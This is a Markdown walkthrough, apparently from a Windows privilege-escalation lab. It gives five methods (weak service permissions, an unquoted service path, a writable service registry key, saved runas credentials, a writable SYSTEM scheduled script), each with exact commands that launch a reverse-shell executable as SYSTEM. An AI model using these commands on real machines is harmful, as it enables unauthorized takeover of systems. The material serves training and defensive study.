




# 🔥 Windows Privilege Escalation

### (Method #1)

Firstly we will get a reverse connection to the victim machine and i will be using netcat as the listener on the attacker machine.

<figure><figcaption></figcaption></figure>

Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

Note that the "user" account has the permission to change the service config (SERVICE\_CHANGE\_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME):

`sc qc daclsvc`

Modify the service config and set the BINARY\_PATH\_NAME (binpath) to the reverse.exe executable you created:

`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\"`

<figure><figcaption></figcaption></figure>

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start daclsvc`

<figure><figcaption></figcaption></figure>

### (Method #2)

Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME) and that the BINARY\_PATH\_NAME is unquoted and contains spaces.

`sc qc unquotedsvc`

Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:\

`C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`

Copy the reverse.exe executable you created to this directory and rename it Common.exe:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`

<figure><figcaption></figcaption></figure>

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start unquotedsvc`

<figure><figcaption></figcaption></figure>

### (Method #3)

Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME).

`sc qc regsvc`

Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):

`C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`

Overwrite the ImagePath registry key to point to the reverse.exe executable you created:

`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`

<figure><figcaption></figcaption></figure>

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start regsvc`

<figure><figcaption></figcaption></figure>

### (Method #4)

List any saved credentials:

`cmdkey /list`

Note that credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.

Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:

`runas /savecred /user:admin C:\PrivEsc\reverse.exe`

<figure><figcaption></figcaption></figure>

### (Method #5)

View the contents of the C:\DevTools\CleanUp.ps1 script:

`type C:\DevTools\CleanUp.ps1`

The script seems to be running as SYSTEM every minute. Using accesschk.exe, note that you have the ability to write to this file:

`C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1`

Start a listener on Kali and then append a line to the C:\DevTools\CleanUp.ps1 which runs the reverse.exe executable you created:

`echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`

Wait for the Scheduled Task to run, which should trigger the reverse shell as SYSTEM

<figure><figcaption></figcaption></figure>
